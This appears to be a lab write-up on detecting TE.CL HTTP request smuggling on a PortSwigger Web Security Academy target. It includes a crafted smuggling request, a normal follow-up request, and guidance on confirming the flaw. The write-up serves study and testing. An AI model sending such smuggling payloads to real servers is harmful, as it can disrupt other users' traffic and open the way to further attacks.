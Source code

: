 So we try differential responses:
Attack req:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
\r\n
a8\r\n # a8 is a hex value of the chunk size (which includes everything up to x=1 but not \r\n after it)
POST /doesnotexist HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 15 # (Content length has to be 10+1 (+1 because we need at least 1 byte to be smuggled, i.e. it needs to be the body length +1 byte) but for fun we're gonna go with 15 here)
\r\n
x=1\r\n
0\r\n
\r\n
```

And our normal request (simple get req downgraded to http 1.1):
```bash
GET / HTTP/1.1
Host: 0a2500a1044892c7857450d100ae004e.web-security-academy.net
Cookie: session=qqN4H1FiVVaYJSG0XzwN9POXLh3X8q35
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

So we first send attack req and then we send normal req. And we get: 404 Not Found. This confirms TE.CL because If we send normal req without attack req, we get 200 OK 

> Note:
>
>  Some important considerations should be kept in mind when attempting to confirm request smuggling vulnerabilities via interference with other requests:
> - The "attack" request and the "normal" request should be sent to the server using different network connections. Sending both requests through the same connection won't prove that the vulnerability exists.
> - The "attack" request and the "normal" request should use the same URL and parameter names, as far as possible. This is because many modern applications route front-end requests to different back-end servers based on the URL and parameters. Using the same URL and parameters increases the chance that the requests will be processed by the same back-end server, which is essential for the attack to work.
> - When testing the "normal" request to detect any interference from the "attack" request, you are in a race with any other requests that the application is receiving at the same time, including those from other users. You should send the "normal" request immediately after the "attack" request. If the application is busy, you might need to perform multiple attempts to confirm the vulnerability.
> - In some applications, the front-end server functions as a load balancer, and forwards requests to different back-end systems according to some load balancing algorithm. If your "attack" and "normal" requests are forwarded to different back-end systems, then the attack will fail. This is an additional reason why you might need to try several times before a vulnerability can be confirmed.